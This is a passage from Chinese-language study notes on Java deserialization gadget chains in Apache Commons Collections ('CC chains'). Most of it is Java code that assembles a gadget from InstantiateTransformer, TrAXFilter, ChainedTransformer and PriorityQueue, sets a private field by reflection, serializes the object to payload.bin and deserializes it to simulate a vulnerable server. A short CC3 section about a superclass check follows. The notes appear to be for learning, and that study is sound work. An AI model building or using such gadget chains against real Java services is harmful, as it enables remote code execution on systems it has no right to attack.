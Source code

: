 ```java
        org.apache.commons.collections4.functors.InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates});
        org.apache.commons.collections4.Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                instantiateTransformer
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer<>(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer<>(1));
        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);

        priorityQueue.add(1);
        priorityQueue.add(2);

        Class c = transformingComparator.getClass();
        Field transformerField = c.getDeclaredField("transformer");
        transformerField.setAccessible(true);
        transformerField.set(transformingComparator, chainedTransformer);

        //payload序列化写入文件，模拟网络传输
        FileOutputStream f = new FileOutputStream("payload.bin");
        ObjectOutputStream fout = new ObjectOutputStream(f);
        fout.writeObject(priorityQueue);

        //2.服务端读取文件，反序列化，模拟网络传输
        FileInputStream fi = new FileInputStream("payload.bin");
        ObjectInputStream fin = new ObjectInputStream(fi);
        //服务端反序列化
        fin.readObject();
    }

}
```

## CC3

对父类的判断

![Untitled](attachments/CC链%20attachments/Untitled%209.png)

也就是需要加载的恶意类满足父类的限制

![Untitled](attachments/CC链%20attachments/Untitled%2010.png)

报错的原因是为抽象类，需要实现抽象方法


只有一个抽象方法transform

![Untitled](attachments/CC链%20attachments/Untitled%2011.png)
